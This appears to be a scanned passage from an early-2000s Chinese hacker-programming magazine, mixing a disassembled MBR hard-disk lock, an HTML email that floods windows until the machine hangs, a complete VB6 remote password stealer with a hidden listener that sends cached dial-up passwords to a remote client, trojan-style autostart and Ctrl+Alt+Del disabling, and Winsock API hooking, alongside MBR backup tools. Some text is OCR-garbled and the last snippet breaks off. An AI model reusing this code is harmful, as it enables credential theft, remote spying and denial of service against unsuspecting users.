0F6D:01FB 8ED8      MOV DS,AX
0F6D:01FD BEB007    MOV SI,07B0
0F6D:0200 BF0108    MOV DI,0801
0F6D:0203 B90400    MOV CX,0004
0F6D:0206 F3        REPZ
0F6D:0207 A7        CMPSW
0F6D:0208 7404      JZ 020E      ; 字符串相同则跳转至正确引导系统代码
0F6D:020A EB3C      JMP 0248     ; 字符串不同则跳转至加密硬盘代码
0F6D:020E B80000    MOV AX,0000
0F6D:0211 8EC0      MOV ES,AX
0F6D:0213 B80102    MOV AX,0201
0F6D:0216 B90200    MOV CX,0002
0F6D:0219 BA8000    MOV DX,0080
0F6D:021C BB00F0    MOV BX,F000
0F6D:021F CD13      INT 13
0F6D:0221 B80103    MOV AX,0301
0F6D:0224 B90100    MOV CX,0001
0F6D:0227 BA8000    MOV DX,0080
0F6D:022A CD13      INT 13
```

0柱0道2扇是 HDBOOT.EXE 写入的由硬盘锁代码（也就是大家现在看到的代码）+ 正确的硬盘分区表组成，将其写入0柱0道1扇后操作系统就可正常读取硬盘了。

```asm
0F6D:022C B80000    MOV AX,0000
0F6D:022F 8EC0      MOV ES,AX
0F6D:0231 B80102    MOV AX,0201
0F6D:0234 B90300    MOV CX,0003
0F6D:0237 BA8000    MOV DX,0080
0F6D:023A BB007C    MOV BX,7C00
0F6D:023D CD13      INT 13
0F6D:023F EA007C0000 JMP 0000:7C00
```

0柱0道3扇是 HDBOOT.EXE 写入的原MBR区的备份，将其读入0000:7C00处后跳转至原MBR代码处执行（以后怎么样引导就不是我们现在讨论的了），从而正确引导系统。

```asm
加密硬盘代码
0F6D:0248 B80000    MOV AX,0000
0F6D:024B 8EC0      MOV ES,AX
0F6D:024D B80102    MOV AX,0201
0F6D:0250 B90400    MOV CX,0004
0F6D:0253 BA8000    MOV DX,0080
0F6D:0256 BB00F0    MOV BX,F000
0F6D:0259 CD13      INT 13
0F6D:025B B80103    MOV AX,0301
0F6D:025E B90100    MOV CX,0001
0F6D:0261 BA8000    MOV DX,0080
0F6D:0264 CD13      INT 13
```

HDBOOT.EXE 写入的由硬盘锁代码（也就是大家现在看到的代码）+ 逻辑锁，将其写入0柱0道1扇后操作系统就被完全锁死了（不能从其它盘引导）：

0F6D:0266 CD19    INT 19    不用多说吧，相当于热启动

大家看后一定看出了一些问题，为了能够让这个硬盘锁可以跨平台，我认为输入正确密码后应先将正确的分区表读入0柱0道1扇，输入不正确密码后就将江民锁读入0柱0道1扇即可。有人一下就看出了，如果电脑主人上次用正确密码进入了电脑，而电脑非法使用者一次都不试密码，就直接用软盘或光盘或USB盘引导，那么就可以非法访问硬盘了。说实话，这个问题困扰了我许久，一直不得其解。不过这样做，就得在输入正确密码后就将正确的分区表读入0柱0道1扇，然后在操作系统启动后再做手脚把0柱0道1扇的分区表加密，这样做有两个问题：

- 1. 操作系统启动做的手脚一定是放在操作系统的自启动中（如DOS的AUTOEXEC.BAT、WIN98的“启动”等），这样做显然不安全；
- 2. 同时这样做显然不能做到“跨平台”，所以我只能在程序说明中告诉使用者，如果离开电脑，就故意输入一错误密码，那么江民锁原理的逻辑锁就将硬盘锁死了，这样电脑非法使用者用软盘或光盘或USB盘都不能引导了。

最后多说几句，如果程序再做一些修改，比如把INT13的入口做改动，再重新写一个INT13，把入口改为我们自己的中断，就可以起到硬盘保护的作用了。再比如还可以用一段子程序来保护BIOS中的设置，先把CMOS中的数据读出来，保存在硬盘上，正常启动后，把CMOS中的数据和硬盘上的对比，不一样就提示是否修改（修改的话当然需要密码），从而起到保护CMOS的作用。当然这些只是我的一些想法和网友的一些建议，不过，想要实现也并不是很困难的事情。

罗彬

笔者想在这里谈谈邮件的攻击和防备，呵呵，相信大多数发攻击邮件的网友们本意只是想玩玩，但一不小心就上了瘾（因为有成就感嘛！）。咋办？还是像小虾这样写出来，一来更有成就感，二来可以提高同胞们的安全意识，三来菜鸟不来了，那攻击邮件也就少了，我们的恶习也就脱脱了。

其实，做这样的邮件一点也不神秘。只要在Outlook中新建一个邮件，选取工具栏上的格式菜单项，选定“多信息文本（HTML）”，接着转到源文件的编辑框中。在这里，你可以随心所欲地按HTML语言来对邮件进行处理，或在发帖时编辑框中选中HTML框来编辑源程序。下面是一段没有多大杀伤力的代码，希望对诸君起个了解的作用：

在 `<head>` 和 `</head>` 中，加入以下的 Java 代码：

```html
<SCRIPT LANGUAGE="JavaScript">
alert("想说就说的内容：")
</script>
```

用alert事件弹出提示框，上面是（）中的内容。呵呵，完全可以写上“系统遭到严重损坏，请马上重装系统”这些开心的恶作剧内容。

当收信人按确定时，这正会触发下面的事件：

```html
<A HREF="/" onmouseover="while(true){window.open()}">
```

这句攻击代码的作用范围，即这里文字越多，成功隐藏越大，可以从网上随意粘些过来 `</A>`

当onmouseover事件（鼠标移动过正文内容时，IE将跳出N个窗口并进入无限死循环，直至当机。

当然，笔者只是打了个比方，恶意的人定会加入更加恶劣的代码来达到其不可告人的目的。这个时候咋办呢？由于上述邮件是通过IE浏览器对Java等代码语言的支持来实现的，所以，只要大家关闭了IE对脚本语言的支持，这样的邮件就没有什么可怕的了，顶多是只纸老虎而已。

现在我们在WEB页状态下依次打开“IE→工具→Internet选项→安全→自定义级别”，将里面脚本的级别设为禁止，这样就可防备上述邮件对你的伤害了。

## 如何实现浏览器访问网址的转向功能

蛮牛

如何在浏览器输入一个网址，或是当浏览器输入一个中文名称的时候，将浏览器的地址转向。这种程序在家庭上网和上网控制中经常遇到，你想知道它是怎么用程序实现的吗？下面就拿我用DELPHI 6.0做的一个浏览器地址检查的实例代码来告诉你，实例程序运行后的界面如下：

下面讲解的是浏览器地址检查的部分，以及如何具体将其用代码来实现的方法：

### 1、原理

程序在每间隔一段时间就去检查IE地址是否有文字输入，如果有文字输入，那么就检查这段文字中是否有非法文字，如果有，那么就替换这个网络地址，换成自己预设的地址。

### 2、部分程序代码

- 枚举子窗体，看是否是EDIT类，并根据子窗体的文字，根据情况改变地址。

```pascal
function EnumChildProc(hWnd: HWND; lParam: LPARAM): Boolean; stdcall
var
  Buffer: Array[0..255] of Char;    // 申请一个数组
  rsize: integer;
  NewAddress: string;
begin
  Result := True;
  FillChar(Buffer, 256, #0);    // 初始化数组
  GetClassName(hWnd, Buffer, SizeOf(Buffer));    // 得到窗体类名
  if UpperCase(StrPas(Buffer))='EDIT' then    // 比较是否EDIT类
  begin
    rsize := SendMessage(hWnd, WM_GETTEXT, SizeOf(Buffer), Longint(@Buffer));    // 得到编辑框中的文字
    if rsize>0 then    // 假如有文字
    begin
      NewAddress := Find(StrPas(Buffer));    // 判断是否有要转向的地址
      if NewAddress<>'' then    // 需要转向
      begin
        SendMessage(hWnd, WM_SETTEXT, 0, Longint(PChar(NewAddress)));    // 改写编辑框中的文字
        PostMessage(hWnd, WM_KEYDOWN, $D, $1c0001);    // 模拟按键
        PostMessage(hWnd, WM_KEYUP, $D, $c01c0001);
      end;
    end;
    Result := False;
  end;
end;
```

```pascal
type
  TYolInfo = class(TComponent)    // 定义一个保存转向
public
  Yol: string;
  Address: string;
end;

// 查找是否有要转向的地址。
function Find(AAddress: string): string;
var
  iLoop: integer;
  YolInfo: TYolInfo;
begin
  Result := '';
  for iLoop := FrmMain.sslbWeb.Items.Count-1 downto 0 do
  begin
    if FrmMain.sslbWeb.Items.Objects[iLoop] is TYolInfo then
    begin    // 是否是转向类，如果是得到转向地址。
      YolInfo := FrmMain.sslbWeb.Items.Objects[iLoop] as TYolInfo;
      if Assigned(YolInfo) and (Pos(YolInfo.Yol, AAddress)>0) then
      begin
        Result := YolInfo.Address;
        Break;
      end;
    end;
  end;
end;
```

```pascal
// 每间隔一定时间就查找是否有IE打开，并枚举它的子窗体。
procedure TFrmMain.TimerTimer(Sender: TObject);
var
  hWnd: THandle;
  buf1, buf2: Array[0..255] of char;
begin
  hWnd := GetForegroundWindow;    // 得到最前窗体的句柄
  GetClassName(hWnd, buf1, sizeof(buf1));    // 得到窗体的类名
  GetWindowText(hWnd, buf2, sizeof(buf2));    // 得到窗体的文本
  if (StrPas(buf1)='CabinetWClass') or (StrPas(buf1)='IEFrame') or
     (Pos('Netscape', StrPas(buf2))>0) or (Pos('Opera', StrPas(buf2))>0) or
     (Pos('Tencent', StrPas(buf2))>0) then    // 判断这个窗体是否是IE、Netscape、Tencent等浏览器。
    EnumChildWindows(hWnd, @EnumChildProc, 0);
    // 枚举窗体上的每个子窗体。
end;
```

读者可根据具体的情况改变下FIND函数来实现网络实名等功能，也可加入口令等等，在具体的程序中实现地址的保存功能，读者也可以用数据库来实现。

## 黑客编程

## 用 VB6.0 来实现 Windows 远程盗密码

最近许多人向我说他们的上网密码被盗，想叫我帮他们找找那个盗密码的工具，很可惜我无能，没有帮大家找到，所以花了点时间，自己用 VB6.0 写了一个，希望大家会喜欢。现在我把详细的制作方法告诉大家。

## 一、远程控制端程序

在窗体上放置 6 个控件，它们相关的设定如下表所示：

| 对象 | 属性 | 属性值 | 说明 |
|---|---|---|---|
| 标签（Label） | Caption | 对方 IP： | 提示 |
| 文本框（TextBox） | 名称 | txtip | 输入 IP |
| 文本框（TextBox） | 名称 | txtoutput | 显示密码 |
| 文本框（TextBox） | MultiLine | True | 让 TextBox 可以接受多行文本 |
| 文本框（TextBox） | ScrollBars | 3-Both | 让 TextBox 有水平和垂直滚动条 |
| 按钮（CommandButton） | Caption | 连接 | 制作了一个连接按钮 |
| 按钮（CommandButton） | 名称 | cmdconnect |  |
| 按钮（CommandButton） | Caption | 获得密码 | 制作了一个获得密码按钮 |
| 按钮（CommandButton） | 名称 | cmdget_pass |  |
| 按钮（CommandButton） | Enabled | False | 让按钮为不可使用状态 |
| Winsock | 名称 | tcpclient |  |

表 1

下面介绍 Winsock 控件的加入方法。Winsock 控件在工具栏找不到，我们添加它的方法为：点击“工程”->“部件”（或 Ctrl+T），出现部件对话框，选择 Microsoft Winsock Control 6.0，确定。好了，这时在工具栏多了 Winsock 控件。如图 1 所示：


图 1

设定好了所有对象的属性，下面调整控件位置，完成后如图 2 所示：


图 2

下面我们来写远程控制端程序的源文件：

```vb
Option Explicit

Private Sub cmdconnect_Click()  ' 执行连接
    tcpclient.RemoteHost = txtip.Text    ' 设定连接的 IP
    tcpclient.RemotePort = 1001          ' 设定监听的端口
    tcpclient.Connect
End Sub

Private Sub cmdget_pass_Click()   ' 请求返回密码
    tcpclient.SendData "passwords"    ' 向远程潜伏端发送消息 passwords
End Sub

Private Sub tcpclient_DataArrival(ByVal bytesTotal As Long)
    Dim strdata As String
    tcpclient.GetData strdata            ' 接受远程潜伏端发来的信息
    If strdata = "connect OK!" Then      ' 如果消息是 connect OK!
        cmdconnect.Enabled = False       ' 将“连接”按钮置灰
        cmdget_pass.Enabled = True       ' 同时将“取回密码”设定为可用状态
    Else
        txtoutput.Text = strdata         ' 将返回的密码显示出来
    End If
End Sub
```

最后生成工程。到这里，我们完成了远程控制端程序的编写工作，下面让我们来写远程潜伏端的程序。

## 二、远程潜伏端程序

同远程控制端程序相比，它要简单得多，只有两个控件，一个是 Winsock 控件用于通信，一个 TextBox 用于密码暂存。它们相关的设定如下表所示：

| 对象 | 属性 | 属性值 | 说明 |
|---|---|---|---|
| 文本框（TextBox） | 名称 | txtsenddata | 密码暂存 |
| Winsock | 名称 | tcpserver |  |
| 窗体（Form） | 名称 | frmserver |  |
| 窗体（Form） | Visible | False | 让程序运行的时候不可见 |

表 2

设定好了所有对象的属性，下面调整控件位置，完成后如图 3 所示：


图 3

下面我们来写远程潜伏端的源文件：

```vb
Option Explicit

Private Sub Form_Load()
    tcpserver.LocalPort = 1001    ' 设定传送文件的端口
    tcpserver.Listen              ' 开始监听
End Sub

Private Sub tcpserver_ConnectionRequest(ByVal requestID As Long)
    If tcpserver.State <> sckClosed Then
        ' 检查控件的 State 属性是否为关闭
        tcpserver.Close           ' 如果不是，正在接受新的连接之前先关闭此连接
    End If

    tcpserver.Accept requestID
    tcpserver.SendData "connect OK!"
    ' 发送消息 connect OK!
End Sub

Private Sub tcpserver_DataArrival(ByVal bytesTotal As Long)
    Dim strdata As String

    tcpserver.GetData strdata
    ' 接收远程控制端程序的消息

    If strdata = "passwords" Then
        ' 如果消息是 passwords，那么调用模块 passwords.bas 中的函数
        Call return_password_cached
        tcpserver.SendData txtsenddata.Text
        ' 将 txtsenddata 中的消息向远程控制端发送
    End If
End Sub
```

下面点击“工程”->“添加模块”，选择“模块”，打开，将它的名称改为 passwords，这样我们就添加了一个 passwords.bas。下面我们来编写 passwords.bas 的源代码：

```vb
Option Explicit

Public Declare Function WNetEnumCachedPasswords Lib "mpr.dll" _
    (ByVal s1 As String, ByVal i1 As Integer, ByVal b1 As Byte, _
    ByVal proc_addr As Long, ByVal l1 As Long) As Long

Type Cached_passwords
    id As Integer
    num_of_name As Integer
    num_of_pass As Integer
    flag As Byte
    the_type As Byte
    data(1 To 1024) As Byte
End Type

Public Function get_pass(PASS As Cached_passwords, ByVal nouse As Long) As Integer
    Dim i%, temp1$, temp2$
    For i = 1 To PASS.num_of_name
        temp1 = temp1 + Chr(PASS.data(i))
    Next
    For i = PASS.num_of_name + 1 To (PASS.num_of_name + PASS.num_of_pass)
        temp2 = temp2 + Chr(PASS.data(i))
    Next
    frmserver.txtsenddata.Text = frmserver.txtsenddata.Text + Chr(13) + Chr(10) + temp1 + ":" + temp2
    get_pass = True
End Function
```

```vb
Public Sub return_password_cached()
    Dim i%, temp1$, long1 As Long, byte1 As Byte
    byte1 = &HFF
    i = 0
    long1 = 0
    temp1 = ""

    ' 将上面的函数（get_pass）的地址作为参数，调用 WNetEnumCachedPasswords
    ' WNetEnumCachedPasswords 会自动根据资源总数多次调用 get_pass 函数

    Call WNetEnumCachedPasswords(temp1, i, byte1, AddressOf get_pass, long1)
End Sub
```

最后生成工程。到这里我们已经完成了全部的代码编写工作，使用时先运行潜伏端 .EXE，再运行控制端 .EXE，就会自动显示出 WIN 拨号密码。最后程序运行如图 4 所示。


图 4

我们可以看到对方是用 9900 和 2901 上网卡上网的。由于考虑到安全问题，我将 2901 上网号的密码隐藏了。另外，源程序收藏在光盘杂志相关栏目中。

此程序在 WIN98、VB6.0 环境下测试通过，程序最后的完善还是要靠大家自己去完成，这篇文章在这里仅是起了指导作用，想和我交流可以访问我的主页：www.infree.net.tf


## 如何屏蔽密码盗看

我们在使用 Windows 时，经常会碰到一些密码编辑框，输入其中的文字都以“*”显示。现在，有许多查看密码的小工具能显示出隐藏的密码。究竟是如何实现的呢？

其实比较简单，虽然这些信息都以“*”号显示，但其内部还是以当初的字符表示，所以，我们只要用 Windows API 这个函数就可以实现查看密码的工作。

在 Windows 中，每一个窗口、控件都有它的名字（叫做 Name 或 Window Text）。对于 Form、Dialog Box、Message Box 来说，名字就显示在 Title Bar 中；对于 Edit、Button、Static Control，名字显示在它所在的区域中。密码编辑框本身就是一个 Edit 控件，虽然显示的是特殊字符，但名字属性没有变，还是输入时的字符。Windows 提供了两个 API 函数来获得这个名字：

```c
int GetWindowTextLength(HWND hWnd);
// 得到名字的长度
```

其中，hWnd：想要得到的那个窗口或控件的句柄 handle；

```c
int GetWindowText(HWND hWnd, LPTSTR lpString, int nMaxCount);
// 得到名字
```

其中，hWnd：想要得到的那个窗口或控件的句柄 handle；lpString：存放名字的字符串的地址；nMaxCount：可拷贝的最大字符数。

上面的函数都是通过发送“WM_GETTEXTLENGTH”和“WM_GETTEXT”消息来实现的，所以只要屏蔽所发送的消息即可防止恶意查看密码。下面是部分源代码：

```pascal
// 下面程序为查看密码
procedure TForm1.Timer1Timer(Sender: TObject);
var
  Point: TPoint;
  h: HWND;
  Len: Integer;
  Str: array [0..255] of Char;
begin
  GetCursorPos(Point); // 获得鼠标位置
  h := WindowFromPoint(Point); // 得到窗口句柄
  Len := SendMessage(h, WM_GETTEXTLENGTH, 0, 0); // 得到窗口文本的长度
  SendMessage(h, WM_GETTEXT, Len + 1, Integer(@Str)); // 得到文本
  Edit1.Text := Str; // 显示文本
end;

// 以下程序为屏蔽查看密码
procedure TForm1.NewDefWndProc(var Msg: TMessage);
begin
  if Msg.Msg = EM_SETPASSWORDCHAR then // 判断是否设置密码字符，如果是，则不允许设置
  begin
    Msg.Result := 0;
    Exit;
  end;

  if Msg.Msg = WM_GETTEXT then // 判断是否是得到文本
    Msg.Result := 0
  else // 如果不是则处理这个信息。
    Msg.Result := CallWindowProc(FOldDefWndProc, Edit2.Handle, Msg.Msg, Msg.WParam, Msg.LParam);
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  FNewDefWndProc := MakeObjectInstance(NewDefWndProc);
  // 新建立一个窗口处理句柄
  FOldDefWndProc := Pointer(SetWindowLong(Edit2.Handle, GWL_WNDPROC, LongInt(FNewDefWndProc)));
  // 替换原来的窗口处理程序
end;
```

对于一些常见的黑客程序，比如“冰河”木马等，它们的一些运行机理相信大家都非常感兴趣。其实，对程序开发人员而言，其中两个地方很有用，那就是它们如何实现开机自启动和屏蔽“Ctrl+Alt+Del”。

下面就让我们一起来看看其用 VB 来实现的方法。

## 开机自启动

创建一个按钮控件，命名为 command1，代码如下：

```vb
Option Explicit ' 声明
' 处理注册表的函数
Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" _
    (ByVal hKey As Long, ByVal lpszSubKey As String, lphKey As Long) As Long

Private Declare Function RegSetValue Lib "advapi32.dll" Alias "RegSetValueA" _
    (ByVal hKey As Long, ByVal lpSubKey As String, ByVal dwType As Long, _
    ByVal lpData As String, ByVal cbData As Long) As Long

Const HKEY_LOCAL_MACHINE = &H80000002
Const REG_SZ = 1

' 对 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 进行操作
Private Sub command1_Click()
    Dim sKeyName As String, sKeyValue As String, sKeyValueIcon As String
    Dim Ret As Integer, lphKey As Long

    sKeyName = "Software\Microsoft\Windows\CurrentVersion\Run"
    sKeyValue = App.Path & IIf(Len(App.Path) > 3, "\", "") + "form1.exe"  ' 所要启动的文件
    Ret = RegCreateKey(HKEY_LOCAL_MACHINE, sKeyName, lphKey)
    Ret = RegSetValue(lphKey, "", REG_SZ, sKeyValue, 0&)
End Sub
```


## ◆ 屏蔽“Ctrl+Alt+Del”

创建一个按钮控件，命名为“屏蔽”，代码如下：

```vb
Private Declare Function SystemParametersInfo Lib "user32" Alias "SystemParametersInfoA" _
    (ByVal uAction As Long, ByVal uParam As Long, lpvParam As Long, _
    ByVal fuWinIni As Long) As Long

Private Const SPI_SCREENSAVERUNNING = 97

Private Sub Command2_Click()
    Dim ret As Integer
    Dim pOld As Boolean

    If Command2.Caption = "屏蔽" Then  ' 使 Ctrl+Alt+Del 有效
        ret = SystemParametersInfo(SPI_SCREENSAVERUNNING, True, pOld, 0)
        Command2.Caption = "有效"
    Else    ' 使 Ctrl+Alt+Del 无效
        ret = SystemParametersInfo(SPI_SCREENSAVERUNNING, False, pOld, 0)
        Command2.Caption = "屏蔽"
    End If
End Sub

Private Sub Form_Load()
    Command2.Caption = "屏蔽"
End Sub

Private Sub Form_Unload(Cancel As Integer)
    Dim ret As Integer
    Dim pOld As Boolean    ' 退出前使 Ctrl+Alt+Del 有效
    ret = SystemParametersInfo(SPI_SCREENSAVERUNNING, False, pOld, 0)
End Sub
```

好了，怎么样？是否有所收获？其实 VB 还有很多的功能，像与 TXT 关联，这样就可以避免被删除。也可以把它当作一种病毒什么的，不过请不要搞破坏！如有错误请大家指教！

QQ：30575706

主引导扇区，也就是我们常说的 MBR（MASTER BOOT SECTOR），硬盘的第一个扇区，位于硬盘的 0 柱 0 面 1 扇，是 PC 机在系统引导时最先读入的扇区。这个扇区包含了两部分，一小段装入程序和一个硬盘分区表，其中装入程序的作用是用来将可启动的操作系统分区的第一个扇区（记住：是操作系统的第一个扇区，不是硬盘的第一个扇区），也就是我们常说的引导区（很多人分不清引导区和主引导区的不同），装入内存，并将控制权交给引导程序，从而实现操作系统的引导。装入程序一旦被病毒或恶意程序破坏，硬盘将不能用于引导。

硬盘分区表大家可能比较熟悉。其中的硬盘分区信息一旦遭到破坏，其后果是硬盘找不到分区，数据丢失。可见 MBR 区是多么的重要。正因为它的重要，才有许多病毒或是恶意代码才把矛头指向了它，不留神，你可能就要和你的数据说“886”了。

如果你的硬盘有重要数据的话，你可能通过重建分区表的方法，可以找回一些或是全部的文件。记得几年前，我们单位的一台机器被 CIH 感染并发作了，我花了一整天的时间才将分区表重建好，我当时就在想，要是我早备份了主引导区就好了，于是我就动手写了两个小程序，用于备份硬盘的主引导区。这里我加上详细的注释把源程序写了出来，有兴趣的朋友可以自己编译、链接，之后你就可以用来备份你的分区表了。记住有备无患、防范于未然啊！

其中 MBR1.ASM 通过编译、链接后生成“MBR1.EXE”，用来将主引导区备份到软盘。MBR2.ASM 编译、链接后生成“MBR2.EXE”，万一主引导区遭到破坏，用于将“MBR1.EXE”备份的主引导区写回硬盘。

## 一、MBR1.ASM 的源程序如下：

```asm
MBR1.ASM
; 本程序用于备份硬盘的主引导区
DATA SEGMENT
D1 DB "本程序用于将硬盘的主引导区备份到 A:\BOOT.BAT",0DH,0AH
   DB "作者:风一般的男人!",0DH,0AH
   DB "E-MAIL: tyhhyf@hotmail.com",0DH,0AH
   DB "OICQ: 8663320",0DH,0AH,"$"
D2 DB "A:\BOOT.BAT",00H
DATA ENDS

CODE SEGMENT
ASSUME CS:CODE,DS:DATA,ES:DATA
START:
    MOV AX,DATA
    MOV DS,AX
    MOV ES,AX
    MOV AH,09H
    MOV DX,OFFSET D1
    INT 21H                ; 显示字符串 D1
    MOV AX,0201H
    MOV BX,0700H
    MOV CX,0001H
    MOV DX,0080H
    INT 13H                ; 读 MBR 区到内存
    MOV CX,0002H
    MOV DX,OFFSET D2
    MOV AH,3CH
    INT 21H                ; 建立文件 A:\BOOT.DAT
    MOV AL,0H
    MOV DX,OFFSET D2
    MOV AH,3DH
```

## 黑客编程

```
INT 21H ;打开文件 A:\BOOT.DAT（用于写）
MOV BX,AX
MOV DX,0700H
MOV CX,0200H
MOV AH,40H
INT 21H ;将内存中的MBR区写入文件中
MOV AH,4CH
INT 21H ;退出程序
CODE ENDS
END START
```

二、MBR2.ASM 的源程序如下：

```
MBR2.ASM

;本程序用于将 MBR1.EXE 程序在本机硬盘备份的主引导区恢复到本机硬盘的主引导区
DATA SEGMENT
d1 db "# 主引导区安装程序 #",0dh,0ah
db "作者:风般的男人",0dh,0ah
db "E-MAIL:tyhhy@hotmail.com",0dh,0ah
db "QQ: 6633320",0dh,0ah,'$'
d2 db "!!!警告!!!",0dh,0ah
db "本程序仅用于将 MBR1.EXE 程序在本机硬盘备份的主引导区 A:\BOOT.DAT"
db "文件(该文件必须在A:盘根目录上)恢复到本机硬盘的主引导区，否则硬盘分区"
db "会丢失，不听警告，后果自负!",0dh,0ah
db "确认要执行么?(Y/N)",0dh,0ah,'$'
d3 db "A:\BOOT.DAT 文件没找到!",0dh,0ah,'$'
d4 db "A:\BOOT.DAT",00H
DATA ENDS

CODE SEGMENT
ASSUME CS:CODE,DS:DATA,ES:DATA
START:

MOV AX,DATA
MOV DS,AX
MOV ES,AX
MOV AH,09H
MOV DX,OFFSET D1
INT 21H ;显示字符串d1
MOV AH,00H
INT 16H ;等待用户按任意键继续
MOV AH,07H
MOV AL,00H
MOV BH,04H
MOV CX,0000H
MOV DX,184FH
INT 10H ;设置显示方式(背景绿，前景红)
MOV AH,09H
MOV DX,OFFSET D2
INT 21H ;显示字符串d2(因为此程序有一定的危险性，所以
;警告一定要显眼)
READ-KEYBOARD:
MOV AH,00H
INT 16H
OR AL,20H
CMP AL,79H
JZ WRITE ;是Y/y的话就跳转到写MBR区处
CMP AL,6EH
JZ EXIT ;是N/n的话就跳转到退出处
JMP READ-KEYBOARD ;是其他键就重新读键
EXIT:
MOV AH,07H
MOV AL,00H
MOV BH,07H
MOV CX,0000H
MOV DX,184FH
INT 10H ;清屏
MOV AH,4CH
INT 21H ;退出程序

WRITE:
MOV AH,3DH
MOV DX,OFFSET D4
MOV AL,00H
INT 21H ;打开A:\BOOT.DAT
JB ERROR
PUSH AX
MOV AH,3FH
MOV DX,7000H
MOV CX,0200H
POP BX
INT 21H ;将A:\BOOT.DAT读入内存
MOV AH,03H
MOV AL,01H
MOV BX,7000H
MOV CX,0001H
MOV DX,0080H
INT 13H ;写入硬盘MBR区
JMP EXIT ;跳转到退出程序处

ERROR:
MOV AH,09H
MOV DX,OFFSET D3 ;显示出错信息
INT 21H
MOV AH,4CH
INT 21H ;退出程序
CODE ENDS
END START
```

当然，你也可以用一些其它的工具对分区表进行操作，比如 KV300，但是，你要是和我一样穷，买不起正版，又和我一样尊重知识产权的话，你就照我说的去做吧！:)

说到这，我的程序也介绍完了，程序本身并没有什么值得多说的地方，我要说的是希望大家能够提高安全意识，及时备份分区表。记住，在你每次重新分区，或是用 PQMagic 之类的软件对分区进行操作后，都要将你的 MBR 区做个备份，以防不测。有兴趣的朋友可以和我联系，我的 E-mail 和 QQ 在源程序中可以看到。


## 用 DELPHI 实现含“网蟹”的功能

我现在写这个功能的原因是因为这项技术让人感觉很神奇，也很有商业价值。所以做了一个和“网蟹”相似的软件自己用，本来想拿出来激发些软件，但是由于我对界面的美工和杀毒方面的知识了解有限，所以就算了。不能杀毒，只能监视，有什么用了呢？也希望有关联的朋友和我一起来完善这个软件。很多朋友很想了解这项技术，下面给大家讲述这项技术的所有细节。

## 一、基础知识

首先，想编这种程序需要一些基础知识。会用 DELPHI，精通 Windows API，特别是 SOCKET 部分，懂汇编语言，会用 SoftICE 调试程序，因为这种程序最好用 SoftICE 调试。

## 二、基本原理

一般在 Windows 下，是通过 SOCKET、CONNECT、SEND、SENDTO、RECV、RECVFROM、BIND 等函数来实现网络通讯的，所以只要修改这些函数的入口，让程序先调用你自己的一个函数，然后再调用 SOCKET 的函数，你就可以监视所有的网络连接了。

## 三、技术要点

- 1. 截取 API 入口，获得 API 的参数；
- 2. 安全地潜入 Windows 内部，良好地兼容 Windows 的各个版本；
- 3. 获得当前使用 SOCKET 的程序；
- 4. 必须熟练应用 ReadProcessMemory()、WriteProcessMemory() 这两个函数。

## 四、部分源程序分析

> 注：部分来自大富翁论坛

```
procedure UnInstallThunkFunc(tfType : TThunkFunc); // 卸安装拦截函数
var
  nCount : DWORD;
begin
  if not ThunkCodeArr[tfType].bInstalled then exit; // 函数还未被安装
  if (hProc=0) or (ThunkCodeArr[tfType].addr_sys=nil) then exit;

  // 下面的函数将拦截函数替换为原来函数的地址
  WriteProcessMemory(hProc,
    ThunkCodeArr[tfType].addr_sys,
    @(ThunkCodeArr[tfType].codeBak),
    5,
    nCount);
  ThunkCodeArr[tfType].bInstalled := false;
end;

procedure InstallThunkFunc(tfType : TThunkFunc); // 安装拦截函数
var
  nCount : DWORD;
begin
  if ThunkCodeArr[tfType].bInstalled then exit;
  if (hProc=0) or (ThunkCodeArr[tfType].addr_sys=nil) then exit;

  WriteProcessMemory(hProc,
    ThunkCodeArr[tfType].addr_sys,
    @(ThunkCodeArr[tfType].codeThunk),
    5,
    nCount);
  ThunkCodeArr[tfType].bInstalled := True;
end;

procedure InitThunkCode;
var
  tfType : TThunkFunc;
  hMod : HMODULE;
  pSysFunc, pThunkFunc : Pointer;
begin
  for tfType := tfSocket to tfRecvFrom do
  begin
    FillChar(ThunkCodeArr[tfType], sizeof(TThunkCode), 0);

    // 获得系统函数的句柄
    hMod := GetModuleHandle(PChar(ThunkFuncNameArr[tfType].strMod));
    if hMod = 0 then continue;

    // 获得系统函数的地址
    pSysFunc := GetProcAddress(hMod,
      PChar(ThunkFuncNameArr[tfType].strSysProc));
    if pSysFunc = nil then continue;

    // 获得拦截函数的地址
    pThunkFunc := GetProcAddress(hInstance,
      PChar(ThunkFuncNameArr[tfType].strThunkProc));
    if pThunkFunc = nil then continue;

    // 保存拦截函数和系统函数的地址
    ThunkCodeArr[tfType].addr_sys := pSysFunc;
    ThunkCodeArr[tfType].addr_thunk := pThunkFunc;

    // JMP 指令保存
    ThunkCodeArr[tfType].codeThunk.sJmp := ShortInt($E9);
    // jmp ...
    ThunkCodeArr[tfType].codeThunk.dwAddr := DWORD(pThunkFunc) - DWORD(pSysFunc) - 5;
    ThunkCodeArr[tfType].codeBak.sJmp := PByte(pSysFunc)^;
    ThunkCodeArr[tfType].codeBak.dwAddr := PDWORD(DWORD(pSysFunc)+1)^;
  end;
end;
```

有兴趣的朋友可以看看光盘上“杂志相关”栏目中我提供的源代码，也可以上“大富翁”看相关代码。顺带说一句，该网站上还在讨论关于如何实现“屏幕取词”的功能，其实实现的技术都是相似的，在这里提起这个，算是举一反三吧！如果大家愿意更深一些地去钻研这类编程技术的话，建议去看看《Windows 核心编程》这本书。

## 使用 Delphi 在 Win2000 / WinXP 下实现重启和关机

@WGIRL-MACHINE

前段时间曾经做过一个网吧监控程序，其中包含安装程序，需要重启计算机。本来只需要使用 ExitWindowsEx 函数就可以实现的，但是网吧的计算机大多使用 Win2000 作为操作系统，函数返回错误“没有取得相应的特权”。唉，Win2000 怎么老是爱搞特权啊！

查看 SDK 后，得知在 WinNT 系列操作系统下需要通过 AdjustTokenPrivileges 函数取得 SE_SHUTDOWN_NAME 特权。于是编译、调试，却发现在哥们儿手头的 Delphi 中均没有定义 SE_SHUTDOWN_NAME，只好在 C++ Builder 5 附带的 winnt.h 头文件中查找得到。程序代码如下：

```
procedure TForm1.Button1Click(Sender: TObject);
var hToken: THandle;
    tp: TTokenPrivileges;
const SE_SHUTDOWN_NAME = 'SeShutdownPrivilege';
begin
  // 打开进程令牌
  if not OpenProcessToken(GetCurrentProcess,
    TOKEN_ADJUST_PRIVILEGES or
    TOKEN_QUERY, hToken) then
    ShowMessage(SysErrorMessage(GetLastError));
